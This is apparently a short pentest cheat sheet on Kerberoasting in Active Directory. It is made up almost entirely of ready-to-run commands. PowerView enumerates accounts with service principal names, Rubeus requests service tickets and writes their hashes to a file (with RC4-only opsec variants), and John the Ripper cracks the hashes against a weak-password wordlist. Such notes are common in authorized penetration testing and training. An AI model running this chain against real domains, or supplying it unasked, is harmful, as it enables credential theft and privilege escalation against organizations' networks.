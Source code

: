 ## PRivileges Escalation in AD


### Kerberoasting
---

```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . PowerView.ps1
C:> Get-DomainUser -SPN
```
- **Using `Rubeus.exe`**
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple

# Accounts supporting only RC4
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
c:> Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt

# Crack with John
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
